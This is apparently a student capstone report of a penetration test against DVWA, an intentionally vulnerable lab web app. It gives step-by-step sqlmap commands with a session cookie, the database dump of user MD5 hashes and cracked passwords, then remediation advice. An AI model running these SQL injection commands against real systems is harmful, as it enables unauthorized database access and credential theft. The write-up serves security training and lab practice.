


# 5. Capstone Project: Full VAPT Cycle  
  
## Objective  
  
To perform a full Vulnerability Assessment and Penetration Testing (VAPT) cycle on an intentionally vulnerable web application (DVWA) and demonstrate real-world attack scenarios, exploitation, and remediation.  
  
---  
  
## Target Information  
  
- Target IP: 192.168.1.52  
- Attacker IP: 192.168.1.47  
- Application: DVWA (OWASP BWA)  
- URL: http://192.168.1.52/dvwa/vulnerabilities/sqli/  
  
- Credentials:  
- Username: user  
- Password: user  




---  
  
## Tools Used  
  
- Kali Linux  
- sqlmap  
  
---  
  
## Methodology (PTES)  
  
### 1. Reconnaissance  
  
- Identified target application and entry point  
- Mapped attack surface  
  
---  
  
### 2. Scanning  
  
- Vulnerability scanning performed using OpenVAS  
- Identified web application vulnerabilities including SQL Injection  
  
---  
  
### 3. Exploitation  
  
SQL Injection testing was performed using sqlmap with an authenticated session.

## Step-by-Step SQL Injection Exploitation (DVWA)  
  
### Step 1: Access Target Application  
  
- Target URL:    
  http://192.168.1.52/dvwa/vulnerabilities/sqli/  
  
- Login Credentials:  
  - Username: user    
  - Password: user    
  
- Set DVWA Security Level:  
  - Security → Low    
  
---  
  
### Step 2: Identify Injection Point  
  
- Parameter tested: `id`  
- Example vulnerable request:  

[http://192.168.1.52/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit](http://192.168.1.52/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit)

  
- The application reflects database output, indicating possible SQL injection.  
  
---  
  
### Step 3: Maintain Authenticated Session  
  
- Extract session cookie from browser:  

PHPSESSID=qskf740hbl9grlc7j50o6f2id0; security=low

  
- Required to prevent redirection to login page.  
  
---  
  
### Step 4: Confirm SQL Injection Using sqlmap  
  
```bash  
sqlmap -u "http://192.168.1.52/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \  
--cookie="PHPSESSID=qskf740hbl9grlc7j50o6f2id0; security=low" \  
--batch --dbs
```
### Result:

- Backend DBMS identified: MySQL
    
- Databases discovered:
```typescript
available databases [2]:
[*] dvwa
[*] information_schema
```
---

### Step 5: Enumerate Tables
```bash
sqlmap -u "http://192.168.1.52/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \  
--cookie="PHPSESSID=qskf740hbl9grlc7j50o6f2id0; security=low" \  
-D dvwa --tables
```

### Result:

- Tables found:
```typescript
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

### Step 6: Dump Sensitive Data (users table)
```bash
sqlmap -u "http://192.168.1.52/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \  
--cookie="PHPSESSID=qskf740hbl9grlc7j50o6f2id0; security=low" \  
-D dvwa -T users --dump
```

Output
```typescript
Database: dvwa                                                                                                     
Table: users
[6 entries]
+---------+---------+--------------------------------------------------+---------------------------------------------+-----------+------------+
| user_id | user    | avatar                                           | password                                    | last_name | first_name |
+---------+---------+--------------------------------------------------+---------------------------------------------+-----------+------------+
| 1       | admin   | http://127.0.0.1/dvwa/hackable/users/admin.jpg   | 21232f297a57a5a743894a0e4a801fc3 (admin)    | admin     | admin      |
| 2       | gordonb | http://127.0.0.1/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     |
| 3       | 1337    | http://127.0.0.1/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       |
| 4       | pablo   | http://127.0.0.1/dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      |
| 5       | smithy  | http://127.0.0.1/dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        |
| 6       | user    | http://127.0.0.1/dvwa/hackable/users/1337.jpg    | ee11cbb19052e40b07aac0ca060c23ee (user)     | user      | user       |
+---------+---------+--------------------------------------------------+---------------------------------------------+-----------+------------+

```

---

### Step 7: Extracted Data

|Username|Password|
|---|---|
|admin|admin|
|gordonb|abc123|
|1337|charley|
|pablo|letmein|
|smithy|password|
|user|user|

---

### Step 8: Password Cracking

- Hashes identified as MD5
    
- sqlmap performed dictionary-based cracking
    
- Multiple weak passwords recovered successfully
    

---

### Step 9: Analysis

- SQL injection allowed direct database access
    
- Sensitive user credentials were exposed
    
- Weak password hashing (MD5) enabled easy cracking
    

---

### Step 10: Conclusion

This attack demonstrates that improper input validation allows attackers to:

- Enumerate databases
    
- Extract sensitive data
    
- Compromise user accounts
    

The vulnerability poses a critical risk and must be remediated immediately.

---
## Exploitation Evidence


## Detection Log

|Timestamp|Target IP|Vulnerability|PTES Phase|
|---|---|---|---|
|2026-03-20 12:00:00|192.168.1.52|SQL Injection|Exploitation|
|2026-03-20 12:20:00|192.168.1.52|Weak Auth|Scanning|

---

## Analysis  
  
- The application lacks proper input validation, allowing user-supplied data to be directly executed as SQL queries.  
- SQL injection enables attackers to bypass application logic and interact directly with the database.  
- The backend database (MySQL) was successfully enumerated, confirming full query execution capability.  
- Sensitive data, including user credentials, was exposed due to insecure database design.  
- Passwords were stored using unsalted MD5 hashing, which is cryptographically weak and highly vulnerable to dictionary and brute-force attacks.  
- The presence of multiple SQL injection techniques (boolean-based, error-based, time-based, UNION-based) indicates a complete absence of secure coding practices.  
  
---  
  
## Key Findings  
  
- Critical SQL Injection vulnerability successfully exploited  
- Full database enumeration achieved  
- Sensitive user credentials extracted from database  
- Password hashes cracked using dictionary-based attack  
- Weak cryptographic practices identified (MD5 hashing)  
- Multiple attack vectors confirmed (blind, error-based, UNION-based SQLi)  
  
---  
  
## Impact  
  
- Unauthorized access to backend database systems  
- Complete compromise of user credentials  
- High likelihood of account takeover  
- Exposure of sensitive and confidential data  
- Potential for privilege escalation and administrative access  
- Increased risk of lateral movement within the system  
- Severe data breach implications affecting confidentiality, integrity, and availability  
  
---  
  
## Remediation  
  
- Implement parameterized queries (prepared statements) to prevent SQL injection  
- Enforce strict input validation and output encoding  
- Replace MD5 hashing with secure algorithms such as bcrypt or Argon2  
- Apply salting techniques to strengthen password storage  
- Enforce strong password policies (complexity, length, rotation)  
- Deploy Web Application Firewall (WAF) to detect and block malicious requests  
- Perform regular vulnerability assessments and penetration testing  
- Follow secure coding standards (OWASP Top 10 guidelines)

---

## PTES Report  
  
- A full VAPT cycle was conducted on the target system (192.168.1.52) following the PTES methodology.  
- During reconnaissance, the target application, entry points, and attack surface were identified.  
- In the scanning phase, vulnerabilities were detected using OpenVAS and manual analysis.  
  
- In the exploitation phase:  
- SQL Injection vulnerability was identified and successfully exploited using sqlmap  
- Backend database (MySQL) was enumerated  
- Sensitive data, including user credentials, was extracted  
  
- Password security analysis:  
- Passwords stored using unsalted MD5 hashing  
- Successfully cracked using dictionary-based attack  
- Indicates weak cryptographic and authentication practices  
  
- Post-exploitation insights:  
- Attackers can gain unauthorized access to user accounts  
- Potential for privilege escalation and deeper system compromise  
- Confirms real-world exploitability of the vulnerability  
  
- Critical weaknesses identified:  
- Lack of input validation  
- Insecure password storage  
- Absence of secure coding practices  
  
- Recommended remediation:  
- Implement input sanitization and parameterized queries  
- Replace MD5 with secure hashing (bcrypt/Argon2)  
- Enforce strong authentication mechanisms  
- Conduct regular security testing and validation  
  
- Overall assessment:  
- The system is highly vulnerable to common web attacks  
- Immediate remediation is required to prevent exploitation and data breaches

---

## Non-Technical Summary  
  
- A security assessment identified critical weaknesses in the web application.    
- A major vulnerability allows attackers to access the database without authorization.    
  
- Key risks:  
  - Exposure of sensitive user information    
  - Compromise of login credentials    
  - Potential unauthorized system access    
  
- Weak password protection further increases the risk of account takeover.    
  
- Business impact:  
  - Data breach risk    
  - Loss of user trust    
  - Potential financial and reputational damage    
  
- Recommended actions:  
  - Improve input validation mechanisms    
  - Strengthen password security and storage    
  - Apply necessary security updates and patches    
  
- Final note:  
  - Addressing these vulnerabilities will significantly improve the overall security posture of the application  

---

## Conclusion

The full VAPT cycle successfully demonstrated real-world attack scenarios, including SQL injection and credential compromise. The system is highly vulnerable due to improper input validation and weak security practices. Immediate remediation is required to prevent exploitation and protect sensitive data.
